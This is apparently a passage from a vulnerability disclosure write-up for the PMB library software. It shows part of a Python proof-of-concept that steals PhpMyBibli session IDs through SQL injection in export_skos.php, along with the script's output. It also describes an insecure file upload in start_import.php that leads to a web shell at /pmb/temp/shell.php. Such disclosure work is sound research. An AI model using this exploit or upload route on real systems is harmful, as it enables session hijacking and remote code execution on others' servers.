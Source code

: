 ```python
            print(sessid_list)
            break
    if not sessid_list:
        return False

if __name__ == '__main__':
    parser = argparse.ArgumentParser(prog='', description='SQL Injection in export_skos.php (Steal PhpMyBibli-SESSID)', epilog='Text at the bottom of help')
    parser.add_argument('pmb_url', type=str, help='PMB\'s URL (e.g. http://127.0.0.1/pmb or http://127.0.0.1)')
    args = parser.parse_args()

    exploit()
```

The results obtained match the information extracted from the database with the vulnerability of the previous case (SQL Injection in **/admin/convert/export_z3950.php**).

```text
root@ubuntu:/var/www/html/pocs# python3 Union-SQLI-export_skos.py http://127.0.0.1/pmb/
['1886627101', '3239147683', '3324994107', '3788863056', '4604414197', '5080229282', '7066911231', '7152832893']
```

## Post-auth vulnerabilities

After showing multiple unauthenticated vulnerabilities that allow obtaining an authenticated session, the following authenticated vulnerabilities are detailed, which enable the execution of commands on the server (RCE).

### Insecure File Upload in /admin/convert/start_import.php

**Note:** The CVE for this vulnerability was assigned to another security researcher.

Insecure file upload vulnerability in **/admin/convert/start_import.ph**p allows arbitrary file upload. In this case, it is due to the lack of validation of file extensions (phtml, php, etc) that can be interpreted by the application server.

As can be seen in the following code snippet, the uploaded file is stored in a temporary path ($base_path/temp/example_file.txt).

```php
124  if ($_FILES['import_file']['name']) {
125    if (!@ copy($_FILES['import_file']['tmp_name'], "$base_path/temp/".$origine.$_FILES['import_file']['name'])) {
126      error_message_history($msg["ie_tranfert_error"], $msg["ie_transfert_error_detail"], 1);
127      exit;

<...>
```

After the file is uploaded via the **/admin/convert/start_import.php** route, the PHP file is accessible via the **/pmb/temp/shell.php** application’s path.
